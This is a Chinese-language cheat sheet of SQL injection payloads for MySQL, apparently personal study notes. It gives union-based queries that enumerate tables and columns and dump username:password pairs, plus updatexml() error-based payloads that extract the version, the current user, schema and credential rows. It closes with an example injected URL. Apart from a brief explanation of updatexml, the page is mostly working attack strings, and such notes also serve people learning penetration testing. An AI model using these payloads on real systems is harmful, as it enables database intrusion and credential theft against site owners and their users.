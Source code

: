 ```yaml
---
author: 
  name: Zephyr
title: SQL注入
date: 2022-6-20 16:07:01
permalink: /pages/2e1547494524d1be
tags: 
  - SQL
---
```

# SQL注入

爆表名

```mysql
union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()
```



爆列名

```mysql
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()
```



爆字段

```mysql
union select 1,group_concat(username,":",password),3 from users
```



## 报错注入

### updatexml()函数

#### updataxml()函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：`XML_document`是`String`格式，为`XML`文档对象的名称

第二个参数：`XPath_string` (Xpath格式的字符串) 

第三个参数：`new_value`，`String`格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

#### updatexml报错注入用法

##### 爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

因为`concat()`是将其连接成一个字符串，不符合`xpath_string`格式，会出现格式错误而报错，并会爆出

##### 爆出连接用户

```mysql
and updatexml(1,concat(0x7e,(select user()),0x7e),1)
```

##### 爆表

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868) ,0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)
```

##### 爆列名

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='库的十六进制表示' and table_schema='表的十六进制表示'),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)
```

##### 查数据

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",列名) from 表名 limit 0,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select concat_ws("~",id,username,password) from users limit 0,1),0x7e),1)
```

##### 例子

```mysql
http://localhost/index.php?r=content&cid=1 and updatexml(1,concat(0x7e,(select title from content limit 0,1),0x7e),1)
```